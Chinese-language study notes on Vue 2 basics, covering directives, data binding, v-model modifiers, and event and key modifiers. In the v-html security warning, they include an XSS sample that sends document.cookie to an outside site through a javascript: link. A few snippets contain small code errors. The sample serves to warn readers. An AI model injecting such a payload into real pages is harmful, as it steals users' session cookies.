



笔记来源：

黑马程序员刘龙斌 Vue 教程：

https://www.bilibili.com/video/BV1zq4y1p7ga?p=207&spm_id_from=pageDriver


尚硅谷天禹 Vue 教程

https://www.bilibili.com/video/BV1Zy4y1K7SH?spm_id_from=333.999.0.0

课件笔记：https://www.aliyundrive.com/s/B8sDe5u56BU


# Vue 介绍

## 1. Vue 概要

Vue 是一套用于 **构建用户界面** 的 **渐进式**  Javascript 框架

- 构建用户界面：将数据转换为界面
- 渐进式： Vue 可以自底向上逐层应用（从底层 100kb 基本框架到支持各种 Vue 插件）


作者：尤雨溪

- 2013年， 受到 Angular 框架的启发，尤雨溪开发出了一款轻量框架 - Seed，同年12月，Seed 更名为 Vue，版本号 0.6.0
- 2014年，Vue 正式对外公布，版本号 0.8.0，Taylor otwell 在 Twitter 上发表动态，说自己正在学习 Vue.js
- 2015年， 10月27日，正式发布 Vue 1.0.0 Evangelion（新世纪福音战士）
- 2016年，10月1日，正式发布 Vue 2.0.0 Ghost in the Shell （攻壳机动队）
- 2020年，9月18日，正式发布 Vue 3.0.0 One Piece （海贼王）


官网：

1. 英文官网: https://vuejs.org/
2. 中文官网: https://cn.vuejs.org/


学习 Vue 之前需要掌握的前置知识

- ES6 语法规范
- ES6 模块化
- 包管理器
- 原型、原型链
- 数组常用方法
- axios
- promise


##  2. Vue 特性

Vue 不支持 IE8 及以下版本，因为 Vue 使用了 IE8 无法模拟的 ECMAScript 5 特性。但它支持所有兼容 ECMAScript 5 的浏览器。


### 2.1 数据驱动视图

在使用了 Vue 的页面中， Vue 会监听数据的变化，从而自动重新渲染页面的结构，示意图如下：


- 当页面数据发生变化时，页面会自动重新渲染


### 2.2 组件化模式

采用组件化模式，提高代码复用率、且让代码更好维护


### 2.3 声明式编码

声明式编码，让编码人员无需直接操作 DOM，提高开发效率。

命令式编码：原生 Js 开发，是直接操作 DOM

~~~js
persons == [
    {id:'001',name:'张三',age:18},
    {id:'002',name:'李四',age:19},
    {id:'003',name:'王五',age:20}
]
let htmlStr = ''
persons.forEach(p=>{
    htmlStr += `<li>${p.id} - ${p.name} - ${p.age}</li>`
})

let list = document.getElementById('list')
list.innerHTML = htmlStr
~~~


声明式编码：

类似于模板引擎，通过模板语法将数据显示到对应位置

~~~vue
<ul id="list">
    <li v-for="p in persons">
        {{p.id}} - {{p.name}} - {{p.age}}
    </li>
</ul>
~~~


### 2.4 虚拟 DOM

- 使用虚拟 DOM + 优秀的 Diff 算法，尽量复用 DOM 节点

1. 原生 Js 实现是将 DOM 数据重新组合成 HTML 代码，然后加载到页面


2. Vue 中的虚拟 DOM 是对新数据进行对比，原数据可以复用。然后只针对改动数据进行处理。


### 2.5 传统前端开发与 Vue 前端开发

传统 Web 前端开发中，基于 Javascript 或 jQuery + 模板引擎构建用户界面


使用 Vue 构建用户界面




## 3. Hello World

### 3.1 准备工作

#### 下载 Vue

可以通过引入官网下载的本地 Vue.js 来进行开发，也可以通过直接引用网络上 CDN 提供的 Vue.js 进行开发，Vue 的版本：

- 生产版本
- 开发版本


生产环境文件，删除了警告，适用于项目

~~~html
<!-- 生产环境版本，优化了尺寸和速度 -->
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14"></script>
~~~


开发环境，包含完整的警告和调试模式，适用于学习使用

~~~html
<!-- 开发环境版本，包含了有帮助的命令行警告 -->
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
~~~


国内CDN

~~~html
<script src="https://cdn.bootcdn.net/ajax/libs/vue/2.6.9/vue.js"></script>
<script src="https://cdn.bootcdn.net/ajax/libs/vue/2.6.9/vue.min.js"></script>
~~~


#### 下载 Vue 开发者工具

在使用 Vue 时，我们推荐在你的浏览器上安装 [Vue Devtools](https://github.com/vuejs/vue-devtools#vue-devtools)。它允许你在一个更友好的界面中审查和调试 Vue 应用。


出现 vue.js not detected 错误的解决办法：下载后需要修改插件配置

- 允许访问文件网址


如果出现 Devtools inspection is not available because it's in production mode or explicitly disabled 错误，这是因为引包的是 min.js 生产版本，应当使用 vue.js 开发者版本的 js 文件。


#### 关闭开发者模式提示

~~~html
<script>
    // 阻止 Vue 在启动时产生的开发版本提示
    Vue.config.productionTip = false        
</script>
~~~

> Vue 是引入 Vue.js 后的自动创建的一个对象，就像 JQuery 中的 jquery 和 $ 一样。通过 Vue 对象我们可以完成各种操作，其中 Vue.config 是 Vue 的属性，存放一些 Vue 配置。


### 3.2 基本使用

- 引包
- 创建 vue 对象，传入一个配置对象，设置 el 和 data 属性
- 使用模板语法将数据渲染

~~~html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>

  <body>
    <!-- 导包 -->
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>

    <!-- 创建一个容器 -->
    <!-- 使用模板语法将数据渲染 -->
    <div id="app">{{ message }}</div>

    <script>
      // 创建 vue 对象，设置 el 和 data 属性
      var app = new Vue({
        el: "#app",
        data: {
          message: "hello world",
        },
      });
    </script>
  </body>
</html>
~~~


#### 容器

- 容器代码依然符合 html 规范，只不过混入一些特殊的 Vue 语法（模板语法）

~~~html
<div id="app">{{ message }}</div>
~~~


#### Vue 实例

- 想让 Vue 工作，必须创建一个 Vue 实例，并且需要传入一个配置对象，对象中包括 el（容器），以及 data（数据）

~~~html
<script>
    var app = new Vue({
        el: "#app",
        data: {
            message: "hello world",
        },
    });
</script>
~~~


el：用于指定当前 Vue 实例为哪个容器服务，值通常为 css 选择器字符串

- 只针对双标签如：`<div> </div>`
- 可重复使用模板调用，在相同 el 指定的 id 下，可重复使用 {{ message }} 进行调用
- 可直接使用标签，如： `el: div` ，建议使用 id 标签
- 不能使用 html 和 body 标签


data: 用于存储数据，数据提供 el 所指定的容器去使用，值一般为一个对象

- 可以导入普通对象，数组，对象

~~~json
data: {
  msg: "hello",
  school: {
    name: "黑马",
    phone: "800-1234-5678"
  },
  campus: [0,1,2,3,4,5]
}
~~~


- data 如果只有一个属性，直接使用属性名调用 `{{ msg }}` 

- data 属性是对象： `{{ school.name }}`
- data 属性是数组： `{{ campus[0] }}`


#### Vue 实例与容器关系

Vue 实例与容器是一一对应的关系，一个实例只能对应一个容器

~~~html
<div class="app">容器1：{{ message }}</div>
<div class="app">容器2：{{ message }}</div>

<script>
    var app = new Vue({
        el: ".app",
        data: {
            message: "hello world",
        },
    });
</script>
~~~

> 虽然容器 el 选择的是 class 同为 app 的容器，但是 Vue 实例只会寻找第一个容器


一个容器只对应一个实例，下方例子中，一个容器对应了两个实例，只有第一个实例有效

~~~html
<div id="root">
        <h1>hello,{{name}},{{address}}</h1>
</div>

<script>
    new Vue({
        el: '#root',
        data: { 
            name:'Jack'
        },
    })
    
    new Vue({
        el: '#root',
        data: { 
            address:'山东'
        },
    });
</script>
~~~


## 4. MVVM 模型

MVVM: Model-View-ViewModel 是一种软件架构模式，是 Vue 实现数据驱动视图和双向数据绑定的核心原理。MVVM 指的是 Model、View 和 ViewModel，它把每个 HTML 页面都拆分成了这三个部分：

- M：Model 表示当前页面渲染时所依赖的数据源，对应data中的数据
- V： 视图 (View) 模板，表示当前页面所渲染的 DOM 结构
- VM：视图模式 (ViewModel) Vue 的实例对象


基本代码与 MVVM 的对应关系


- VM 通过读取 Model 中的数据展示在 DOM（页面） 上
- VM 通过监听 DOM 数据的改变（v-model）对 Model 数据进行改变


所以，vm 一般用于接受我们所创建的 Vue 实例，如：

~~~html
const vm = new Vue({})
~~~


vm 这个实例可以调用 Vue 实例中的所有属性和方法，而 data 实际上最后也是 vm 中的一个属性，因此在容器中我们可以直接调用 vm 的所有属性和方法，如：

~~~html
<div id="root">
    {{name}}
    {{$options}}
    {{$emit}}
</div>
~~~


同时也包括实例原型中的属性和方法：


## 5. VS Code 插件

- Vue snippet
- Vetur
- pathautocomplete

~~~
// 导入文件时是否携带文件的扩展名
"path-autocomplete.extensionOnimport":true,
// 配置 @ 的路径提示
"path-autocomplete.pathMappings":{
"@":"${folder}/src"
},
~~~


创建 vue 组件时，直接使用快捷指令 `<vue` 即可快速创建模板，和 HTML 的 `!` 类似


# Vue 指令

指令（Directives）是 Vue 为开发者提供的模板语法，用于辅助开发者渲染页面的基本结构。


Vue 中的指令按照不同的用途可以分为如下6大类：

- 内容渲染指令
- 属性绑定指令
- 事件绑定指令
- 双向绑定指令
- 条件渲染指令
- 列表渲染指令


## 1. 内容渲染指令

内容渲染指令用来辅助开发者渲染 DOM 元素中的文本内容，常用内容渲染指令有如下3个：

- {{}}
- v-text
- v-html


### 1.1 插值语法

插值语法用于解析标签体中的内容，如：

~~~html
<div id="app">{{ message }}</div>
~~~


容器中的差值语法 {{ }} ，除了可以调用 Vue 实例中的 data 对象的所有属性，还可以填写 js 表达式，如：

~~~js
{{ 1 + 1 }}
~~~


- JS 表达式：

~~~js
a
a + b
demo(1)
x == y ? 'a' : 'b'
Date.now()
url.toUpperCase()
~~~

> 表达式可以产生一个值


- JS 语句

~~~js
if(){}
while(){}
for(){}
~~~

> 这些都是控制语句，不能代表一个值


### 1.2 v-text

v-text 指令作用是向其所在的标签插入文本，使用 v-text 标签显示 data 内容，将 data 内容渲染到标签内部

~~~html
<h2 id="app" v-text="message"></h2>
~~~


注意：如果标签内部已经有值的情况，使用 v-text 会覆盖掉原有值，如：

~~~html
<p id="app" v-text="message">文本</p>
~~~

> 文本会被 data 中的 message 值替换


如果需要添加指定文字可以利用插值语法或字符串拼接的方式：

~~~html
<h2 id="app" v-text="message + 'abc'"></h2>
<h2 id="app">{{ message + 'abc' }}</h2>
<h2 id="app">{{ message }}abc</h2>
~~~


v-text 与插值语法一样，不会解析标签，只是将文本显示在模板中，如：

~~~html
<div id="app">
    <div v-text="str"></div>
</div>

<script>
    const vm = new Vue({
        el: '#app',
        data: {
            str: '<h3>文本</h3>',
        },
    })
</script>
~~~


### 1.3 v-html

v-text 和插值表达式只能渲染纯文本内容，如果要把包含 HTML 标签的字符串渲染为页面的 HTML 元素，则需要用到 v-html 指令，v-html 可以将 html 代码进行解析显示。

~~~html
<h2 id="app" v-html="msg"></h2>
    <script>
        var app = new Vue({
            el: "#app",
            data: {
                msg: "<hr/><hr/>"
            }
        })
    </script>
~~~


安全性问题：

在网站上动态渲染任意 HTML 都是非常危险的，容易导致 XSS 跨站攻击，一定要在可信的内容上使用 v-html，永远不要在用户提交的内容上。

~~~html
<div id="app">
    <div v-html="str"></div>
</div>

<script>
        const vm = new Vue({
            el: '#app',
            data: {
                str: '<a href=javascript:location.href="http://www.baidu.com?" + document.cookie>点击链接</a>',
            },
        })
</script>
~~~

> 链接跳转后，会将本站的所有 cookie （登录信息）以参数的形式传递给目标网站，目标网站接受后，可以通过 Cookie 进行强制登录


## 2. el 与 data 的写法

### 2.1 el 指定容器

在实例中指定容器，可以直接指定容器，如：

~~~js
new Vue ({
    el:'#app',
	data:{msg:'Hello'}        
})
~~~


还可以通过 Vue 实例中的原型方法 $mount 来绑定容器

~~~js
const v = new Vue ({
	data:{msg:'Hello'}        
})

setTimeout(() => {
    v.$mount('#app');
}, 1000);
~~~

> 可以根据需要进行容器的绑定


注意：$mount 不是实例中的方法，而是 Vue 这个类中的方法，是 Vue.prototype 中定义的方法。


### 2.2 data 指定数据

data 的普通写法是对象式写法，就是在 data 属性中传入一个对象，如：

~~~js
data:{msg:'Hello'}
~~~


第二种写法是函数式写法，返回值必须是一个对象：

~~~js
data: function(){
    return {
        msg:'hello'
    }
}
~~~

> 组件中必须使用函数式定义 data


在 data 函数中如果使用 this ，那么这个 this 指向的是 Vue 这个实例对象

~~~js
data: function(){
	console.log(this)
    return {
        msg:'hello'
    }
}
~~~

> 由Vue管理的函数，一定不要写箭头函数，一旦写箭头函数，this就不再是Vue实例了


简写

~~~js
data(){
	console.log(this)
    return {
        msg:'hello'
    }
}
~~~

> 相当于在对象中定义了一个函数，然后通过函数拿到返回值（又是一个对象）


## 3. 属性绑定指令

指令语法用于解析标签（包括：标签属性、标签体内容、绑定事件…………）


### 3.1 数据绑定 v-bind

内容节点是被标签包裹的内容，而属性节点是标签的属性值，如：


- 内容节点

~~~html
<h2>内容节点</h2>
~~~

- 属性节点

~~~html
<input type="text" placeholder="属性节点">
~~~


当我们需要让一个元素的属性作为动态数据改变时，我们无法直接使用插值语法实现，如：

~~~html
<div id="app">
    hello {{ name }}<br/>
    <a href="{{url}}">跳转链接</a>
</div>


<script>
    // 创建 vue 对象，设置 el 和 data 属性
    var app = new Vue({
        el: "#app",
        data: {
            name: "jack",
            url:"https://www.forece.net",
        },
    });
</script>
~~~

> 此时 a 链接中的地址实际上是 `<a href="{{url}}">跳转链接</a>`


需要使用 v-bind 来绑定数据，如：

~~~html
<a v-bind:href="url">跳转链接</a>
~~~


简写方式：

~~~html
<a :href="url">跳转链接</a>
~~~


使用案例：

设置元素属性，如：src, title, alt, href, class 等等

~~~html
<!-- 直接绑定属性 -->

<!-- 属性中拼接字符串 -->

<!-- 三元表达式判断属性 -->

<!-- 对象方式判断属性 -->

~~~


### 3.2 双向绑定 v-model

v-bind 的数据绑定是单向数据绑定，即：

当 Vue 实例中数据变化时，容器中的数据也随之改变，但是如果容器中的数据发生改变时，Vue 实例数据不会随之改变。也就是说只有 Vue 实例中的 data 会影响容器，而容器不会影响 data。简单来说，数据只能从 data 流向页面。


v-model 则是双向绑定，数据不仅能从 data 流向页面，也可以从页面流向 data，容器或实例，只要有一方数据发生改变，另一方也做出同样改变，如：

~~~html
<div id="app">
    <input type="text" v-bind:value="name">
    <input type="text" v-model:value="name">
</div>


<script>
    // 创建 vue 对象，设置 el 和 data 属性
    var app = new Vue({
        el: "#app",
        data: {
            name: "jack",
        },
    });
</script>
~~~


- 当 v-bind 输入框数据变动时，data 值没有改变
- 当 v-model 输入框数据变动时，data 值改变，同时造成联动使 v-bind 输入框也发生改变（因为 v-bind 是依赖 data 数据的）


v-model 的简写方式：

~~~html
<input type="text" v-model="name">
~~~


注意：不是任何地方都可以使用 v-model 实现双向绑定的，如：

~~~html
<h2 v-model:x="name">Hello</h2>
~~~

> 造成 x 属性丢失，并且控制台报错


原因是因为双向绑定是用于数据交互的，如果只是读取数据那么使用插值语法或 v-bind 足够了，因为这里 h2 标签中的属性不能与用户交互产生值的变化，所以双向绑定也就没了意义。


所以一般 v-model 用于 input、textaera、select  等这类表单标签中，当应用于其他表单属性时，如 radio, checkbox, select 等表单时，v-model 会自动判断表单类型，并且修改对应属性值，如：

~~~html
<input type="checkbox" class="custom-control-input" id="customSwitch1" v-model="item.state" />
~~~

> 此时 v-model 绑定的属性就不是 value 而是 checked 属性


### 3.3 v-model 修饰符

为了方便对用户输入的内容进行处理， vue 为 v-model 提供了3个修饰符，分别是：

- number
- trim
- lazy


**number 示例**：

自动将用户输入的数据转为数值类型 

~~~html
<div id="app">
    <input v-model="n1" type="text" /> + <input v-model="n2" type="text" /> =
    {{n1 + n2}}
</div>
</body>
<script>
    const vm = new Vue({
        el: "#app",
        data: {
            n1: "",
            n2: "",
        },
    });
</script>
~~~

> {{ n1 + n2}} 的结果并不是计算结果，而是字符串拼接，我们如果想要实现计算的功能，则需要将 n1 和 n2 转换成数字型。如 `{{Number(n1) + Number(n2)}} `


同样使用 number 修饰符也可以解决这个问题

~~~html
<input v-model.number="n1" type="text" /> + <input v-model.number="n2" type="text" /> = {{n1 + n2}}
~~~


**trim 实例**

自动过滤用户输入的首尾空白字符

~~~html
<div id="app">
    <input v-model="username" type="text" />
    <button @click="showInfo">获取用户名</button>

</div>
</body>
<script>
    const vm = new Vue({
        el: "#app",
        data: {
            username: "zhangsan",
        },
        methods:{
            showInfo(){
                console.log(`"${this.username}"`);
            }
        }
    });
</script>
~~~

> 当用户在表单中添加空格时，获取的数据有可能不正确


需要将左右空格消除，可以在方法中用 js 消除，也可以使用 v-model 修饰符

~~~html
<input v-model.trim="username" type="text" />
~~~


**lazy 实例**

v-model 只要 input 框更新数据，就会对 vm 中的 data 数据进行同步。有时候我们并不想那么快的获取数据，比如用户搜索时，我们只需要最终数据，即用户完整输入的数据。我们只需要在表单用户失去焦点时获得数据即可。这时候可以使用 lazy 修饰符，在 "change" 时更新数据，而非 "input" 时更新，

~~~html
<input v-model.lazy="username" type="text" />
~~~


##  4. 事件绑定指令

Vue 提供了 v-on 事件绑定指令，用来辅助程序员为 DOM 元素绑定事件监听，当用户点击 DOM 元素，会触发绑定的方法（函数）


### 4.1 事件绑定 v-on

例：给 button 按钮绑定点击事件

~~~html
<div id="root">
    <h2>Hello {{name}} </h2>
    <!-- 通过 v-on:click 绑定鼠标点击事件，调用 showInfo 方法 -->
    <button v-on:click="showInfo">点我提示信息</button>
</div>
<script>
    vm = new Vue({
        el:"#root",
        data:{
            name:"World"
        },
        // showInfo 方法必须写在实例的配置对象 methods 属性中
        methods:{
                alert('同学你好')
            }
        }
    })
</script>
~~~

> 在标签内部使用 `v-on:事件名="方法名"` 绑定事件，在配置项的 methods 属性添加对应方法


v-on 的简写方式：

~~~html
 <button @click="showInfo">点我提示信息</button>
~~~


### 案例：简单购物车计数器

~~~html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>

<body>
    <!-- 导包 -->
    <!-- 生产环境版本，优化了尺寸和速度 -->
    <script src="https://cdn.jsdelivr.net/npm/vue"></script>

    <!-- 使用模板语法将数据渲染 -->
    <div id="app">
        <button @click="sub">-</button>
        <span> {{ num }} </span>
        <button @click="add">+</button>
    </div>
    <script>
        var app = new Vue({
            el: "#app",
            data: {
                num: 1
            },
            methods: {
                sub: function() {
                    if (this.num > 0) {
                        this.num--
                    } else {
                        alert('数值不能小于0')
                    }
                },
                add: function() {
                    if (this.num < 10) {
                        this.num++
                    } else {
                        alert('库存不足')
                    }
                }
            }
        })
    </script>

</body>

</html>
~~~


### 4.2 绑定事件传参

方法中定义函数，以及形参

~~~js
methods:{
    showInfo(num){ 
        console.log(num)
        alert('同学你好')
    }
~~~


调用中传递参数，传递实参：

~~~html
<button v-on:click="showInfo(66)">点我提示信息</button>
~~~


### 4.3 $event 事件对象

当模板中没有传递参数时，定义方法中的形参是事件对象

~~~html
<button v-on:click="showInfo()">点我提示信息</button>
~~~


~~~js
methods: {
    showInfo(e) {
        console.log(e);
    },
~~~


当视图中传递了参数，方法中的形参则会被实参代替，如同上边普通事件参数的传值，如果想要 event 与 实参同时生效，可以通过调用时把 event 关键字传入（默认也可以直接调用 event）

~~~html
<button v-on:click="showInfo($event,66)">点我提示信息</button>
~~~


~~~js
methods: {
    showInfo(event, num) {
        console.log(num);
        console.log(event);
        alert("同学你好");
    },
},
~~~

> 事件对象参数的顺序按照 $event 在实参中传递的顺序，不是必须在首位


事件的基本使用：

- 使用 v-on:xxx 或 @xxx 绑定事件，其中 xxx 是事件名
- 事件的回调需要配置在 methods 对象中，最终会在 vm 上
- methods 中配置的函数，不要用箭头函数！否则 this 就不是 vm 了
- methods 中配置的函数，都是被 Vue 所管理的函数， this 的指向是 vm 或组件实例对象
- @click="demo" 和 @click="demo($event)" 效果一致，但后者可以传参


### 4.4 Vue 实例中的 this

通过事件绑定，实现点击按钮增加数值的功能

~~~html
<div id="app">
    <p>{{count}}</p>
    <button v-on:click="add">+1</button>
</div>
</body>
<script>
    const vm = new Vue({
        el: "#app",
        data: {
            count: 1,
        },
        methods: {
            add() {
                vm.count += 1;
            },
        },
    });
</script>
~~~

> data 中的属性可以通过 vm 实例来访问，如 vm.count，所以绑定事件中更改 vm.count 就是更改 data.count 的值


add() 方法是通过 vm 实例调用的，所以 add() 方法中的 this 是指向 vm 实例的，所以代码可以改写为：

~~~js
methods: {
    add() {
        this.count += 1;
    },
},
~~~


注意：在方法中的 this，指向是 vue 对象，如果使用了箭头函数，则指向 window，如

~~~js
methods: {
    add:()=>{
        console.log(this)
    },
},
~~~


### 4.5 事件修饰符

Vue 中的事件修饰符

- prevent 阻止默认事件（常用）
- stop 阻止事件冒泡（常用）
- once 事件只触发一次（常用）
- capture 使用事件的捕获模式
- self 只有 event.target 是当前操作元素时才触发
- passive 事件的默认行为立即执行，无需等待事件回调执行完毕


#### 阻止默认事件

a 标签的默认行为是点击后进行链接跳转，可以通过在方法中取消默认行为，如： e.preventDefault()

~~~html
<div id="root">
    <a v-on:click="showInfo" href="https://www.forece.net">点我提示信息</a>
</div>
<script>
    vm = new Vue({
        el: "#root",
        methods: {
            showInfo(e) {
                e.preventDefault();
                alert("同学你好");
            },
        },
    });
</script>
~~~


在 Vue 中，可以通过给事件添加修饰符来阻止默认行为，如：

~~~html
<a v-on:click.prevent="showInfo" href="https://www.forece.net">点我提示信息</a>
~~~


#### 阻止事件冒泡

点击子元素，会冒泡到父元素，通过给子元素添加 stop 事件修饰符，可以阻止继续冒泡

~~~html
<style>
    .father {
        width: 200px;
        height: 200px;
        background-color: pink;
    }

    .son {
        width: 100px;
        height: 100px;
        background-color: grey;
    }
</style>

<div id="root">
    <div @click="showInfo" class="father">
        <div @click.stop="showInfo" class="son">
        </div>
    </div>
</div>
<script>
    vm = new Vue({
        el: "#root",
        methods: {
            showInfo(e) {
                alert("同学你好");
            },
        },
    });
</script>
~~~


#### 事件只触发一次

只弹出一次窗口

~~~html
<div id="root">
    <button @click.once="showInfo">触发事件</button>
</div>
<script>
    vm = new Vue({
        el: "#root",
        methods: {
            showInfo(e) {
                alert("同学你好");
            },
        },
    });
</script>
~~~


#### 事件捕获模式

同冒泡事件相反，捕获阶段触发事件，即先触发父元素事件，然后再进入子元素事件。

~~~html
<style>
    .father {
        width: 200px;
        height: 200px;
        background-color: pink;
    }

    .son {
        width: 100px;
        height: 100px;
        background-color: grey;
    }
</style>

<div id="root">
    <div @click.capture="showInfo('father')" class="father">
        <div @click="showInfo('son')" class="son">
        </div>
    </div>
</div>
<script>
    vm = new Vue({
        el: "#root",
        methods: {
            showInfo(target) {
                console.log(target);
                alert("同学你好");
            },
        },
    });
</script>
~~~

> 可以看到 console 中先输出的是 father，然后是 son，即捕获顺序


#### 立即执行默认行为

默认行为即为 HTML 元素中的原本自带的行为，如：

- 点击 a 标签自动跳转
- 滑动鼠标滚轮，滚动条会移动
- 鼠标右键会弹出菜单
- 点击提交按钮会产生提交行为并自动刷新网页


当事件处理时间较长时，使用 passive，则会立即执行默认行为

~~~html
<div id="root">
    <form action="">
        <input type="text" name="name" />
        <input @click.passive="showInfo" type="submit" value="提交" />
    </form>
</div>
<script>
    vm = new Vue({
        el: "#root",
        methods: {
            showInfo() {
                for (var i = 0; i < 10000; i++) {
                    console.log("#");
                }
                console.log("累坏了");
            },
        },
    });
</script>
~~~


#### 多个事件

即要阻止冒泡，又要阻止默认行为

~~~html
<a @click.stop.prevent href="https://www.forece.net">点击</a>
~~~


### 4.6 键盘事件

- keyup
- keydown


通过按下回车在控制台中显示内容，需要给 keyup 做下判断，如果是回车则会显示

~~~html
<div id="root">
    <input type="text" placeholder="按下回车提示输出" @keyup="showInfo" />
</div>
<script>
    vm = new Vue({
        el: "#root",
        methods: {
            showInfo(e) {
                if(e.keyCode==13){
                    console.log(e.target.value);
                }
            },
        },
    });
</script>
~~~


而 Vue 给键盘事件都添加了别名，所以可以直接这样写 `@keyup.enter="showInfo"`

~~~html
<div id="root">
    <input type="text" placeholder="按下回车提示输出" @keyup.enter="showInfo" />
</div>
<script>
    vm = new Vue({
        el: "#root",
        methods: {
            showInfo(e) {
                console.log(e.target.value);
            }
        },       
    });
</script>
~~~


Vue 中常用的按键别名：

- 回车 enter
- 删除 delete（捕获 “删除” 和 “退格” 键）
- 退出 esc
- 空格 space
- 换行 tab
- 上 up
- 下 down
- 左 left
- 右 right


Vue 未提供别名的案件，可以按原始的 key 值去绑定，key 值可以通过 e.key 获取：

~~~js
console.log(e.key);
~~~


但注意要转为 kebab-case（短横线命名），如 CapsLock，在绑定键盘事件的时候，需要用短横线命名，如：

~~~html
<input type="text" placeholder="按下回车提示输出" @keyup.caps-lock="showInfo" />
~~~


特殊按键 Tab，需要使用 @keydown 事件进行绑定，因为 Tab 键本身具有移除焦点的功能，所以当使用 keyup 的事件进行绑定，按下 Tab 键后抬起，焦点已经不在元素上，所以事件失去效果。

~~~html
<input type="text" placeholder="按下回车提示输出" @keydown.tab="showInfo" />
~~~


系统修饰键：ctrl, alt, shift, meta

- 配合 keyup 使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发（只有组合键，修饰键+任意键 才可以触发）
- 配合 keydown 使用：正常触发事件（单独按修饰键就可以触发）


配合 keyup 如果加了第二个按键参数，则只有指定组合才可以触发事件

~~~html
<input type="text" placeholder="按下回车提示输出" @keyup.ctrl.y="showInfo" />
~~~


也可以使用 keyCode 去指定具体案件（不推荐），通过 e.keyCode 获取 keyCode 值

~~~html
<div id="app">
    <input type="text" @keyup="showKeyInfo" value="" />
</div>
<script>
    const vm = new Vue({
        el: "#app",
        methods: {
            showKeyInfo(e) {
                console.log(e.keyCode);
            },
        },
    });
</script>
~~~


Vue.config.keyCodes.自定义键名 = 键码，可以自定义按键别名（不推荐）

~~~html
Vue.config.keyCodes.huiche = 13
~~~


## 案例：v-model 绑定表单数据

### 1. 创建表单

~~~html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <script src="https://cdn.bootcdn.net/ajax/libs/vue/2.6.9/vue.js"></script>
        <title>v-model 表单收集数据</title>
    </head>
    <body>
        <div id="app">
            <form action="">
                账号：<input type="text"/> <br /><br />
                密码：<input type="password"/><br /><br />
                性别：男 <input type="radio" name="sex" /> 
                女 <input type="radio" name="sex" /><br /><br />
                爱好：抽烟 <input type="checkbox" name="hobby" id="" /> 
                喝酒 <input type="checkbox" name="hobby" id="" /> 
                烫头 <input type="checkbox" name="hobby" id="" /><br /><br />
                所属城市：<select name="city" id="">
                <option value="beijing">北京</option>
                <option value="shanghai">上海</option>
                <option value="guangzhou">广州</option>
                <option value="shenzhen">深圳</option>
                <option value="chongqing">重庆</option></select><br /><br />
                其他信息：<textarea name="" id="" cols="30" rows="10"></textarea><br /><br />
                <input type="checkbox" name="" id="" /> 阅读并接受<a href="#" target="_blank">用户协议</a><br /><br />
                <button>提交</button>
            </form>
        </div>
    </body>
</html>

~~~


### 2. text 表单收集数据

text 和 password 都是通过 value 值来绑定数据，用户输入的数据就是 value 值

~~~html
账号：<input type="text" v-model="account" /> <br /><br />
密码：<input type="password" v-model="password" /><br /><br />
~~~


~~~js
const vm = new Vue({
    el: '#app',
    data: {
        account: '',
        password: '',
    },
})
~~~


### 3. radio 单选框

radio 单选框需要 name 属性才可以让表单成为一组数据，如：

~~~html
男 <input type="radio" name="sex" />
女 <input type="radio" name="sex" />
~~~


如果单纯的绑定 v-model ，会出现数据为 null 的情况，这是因为 v-model 实际上是 `v-model:value = "xxx" ` 但是目前 raido 表单上没有 value 值，当用户点击单选框时，改变的只是 checked 属性，

~~~html
性别：男 <input type="radio" name="sex" v-model="sex" /> 
	 女 <input type="radio" name="sex" v-model="sex" />
~~~


